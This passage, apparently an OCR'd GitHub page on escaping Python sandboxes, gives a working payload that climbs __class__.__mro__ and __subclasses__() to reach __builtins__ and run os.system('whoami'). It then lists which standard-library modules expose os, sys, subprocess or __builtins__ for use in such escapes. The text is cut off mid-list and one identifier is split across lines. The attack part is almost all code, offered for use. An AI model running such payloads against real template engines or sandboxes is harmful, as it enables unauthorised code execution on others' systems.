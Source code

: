  - The fourth method `Payload`:

```python
''.__class__.__mro__[2].__subclasses__()[60]()._module.__builtins__['__import__']("os").system("whoami")
```

## Python3

```python
# coding=utf-8

find_modules = {'asyncio': ['subprocess', 'sys', '__builtins__'], 'collections': ['__builtins__'],
                'concurrent': ['__builtins__'], 'ctypes': ['__builtins__'], 'curses': ['__builtins__'],
                'dbm': ['os', 'sys', '__builtins__', 'open'], 'distutils': ['sys', '__builtins__'],
                'email': ['__builtins__'], 'encodings': ['codecs', 'sys', '__builtins__'],
                'ensurepip': ['os', 'sys', '__builtins__'], 'html': ['__builtins__'], 'http': ['__builtins__'],
                'idlelib': ['__builtins__'], 'importlib': ['sys', '__import__', '__builtins__'],
                'json': ['codecs', '__builtins__'], 'lib2to3': ['__builtins__'],
                'logging': ['os', 'sys', '__builtins__'], 'msilib': ['os', 'sys', '__builtins__'],
                'multiprocessing': ['sys', '__builtins__'], 'pydoc_data': ['__builtins__'], 'sqlite3': ['__builtins__'],
                'test': ['__builtins__'], 'tkinter': ['sys', '__builtins__'], 'turtledemo': ['__builtins__'],
                'unittest': ['__builtins__'], 'urllib': ['__builtins__'],
                'venv': ['os', 'subprocess', 'sys', '__builtins__'], 'wsgiref': ['__builtins__'],
                'xml': ['__builtins__'], 'xmlrpc': ['__builtins__'], '__future__': ['__builtins__'],
                '__phello__.foo': ['__builtins__'], '_bootlocale': ['sys', '__builtins__'],
                '_collections_abc': ['sys', '__builtins__'], '_compat_pickle': ['__builtins__'],
                '_compression': ['__builtins__'], '_dummy_thread': ['__bui
ltins__'], '_markupbase': ['__builtins__'],
                '_osx_support': ['os', 'sys', '__builtins__'], '_pydecimal': ['__builtins__'],
                '_pyio': ['os', 'codecs', 'sys', '__builtins__', 'open'], '_sitebuiltins': ['sys', '__builtins__'],
                '_strptime': ['__builtins__'], '_threading_local': ['__builtins__'], '_weakrefset': ['__builtins__'],
                'abc': ['__builtins__'], 'aifc': ['__builtins__', 'open'], 'antigravity': ['__builtins__'],
                'argparse': ['__builtins__'], 'ast': ['__builtins__'], 'asynchat': ['__builtins__'],
                'asynccore': ['os', 'sys', '__builtins__'], 'base64': ['__builtins__'],
                'bdb': ['os', 'sys', '__builtins__'], 'binhex': ['os', '__builtins__'], 'bisect': ['__builtins__'],
                'bz2': ['os', '__builtins__', 'open'], 'cProfile': ['__builtins__'],
                'calendar': ['sys', '__builtins__'], 'cgi': ['os', 'sys', '__builtins__'],
                'cgitb': ['os', 'sys', '__builtins__'], 'chunk': ['__builtins__'], 'cmd': ['sys', '__builtins__'],
                'code': ['sys', '__builtins__'], 'codecs': ['sys', '__builtins__', 'open'], 'codeop': ['__builtins__'],
                'colorsys': ['__builtins__'], 'compileall': ['os', 'importlib', 'sys', '__builtins__'],
                'configparser': ['os', 'sys', '__builtins__'], 'contextlib': ['sys', '__builtins__'],
                'copy': ['__builtins__'], 'copyreg': ['__builtins__'], 'crypt': ['__builtins__'],
                'csv': ['__builtins__'], 'datetime': ['__builtins__'], 'decimal': ['__builtins__'],
                'difflib': ['__builtins__'], 'dis': ['sys', '__builtins__'], 'doctest': ['os', 'sys', '__builtins__'],
                'dummy_threading': ['__builtins__'], 'enum': ['sys', '__builtins__'], 'filecmp': ['os', '__builtins__'],
                'fileinput': ['os', 'sys', '__builtins__'], 'fnmatch': ['os', '__builtins__'],
                'formatter': ['sys', '__builtins__'], 'fractions': ['sys', '__builtins__'],
```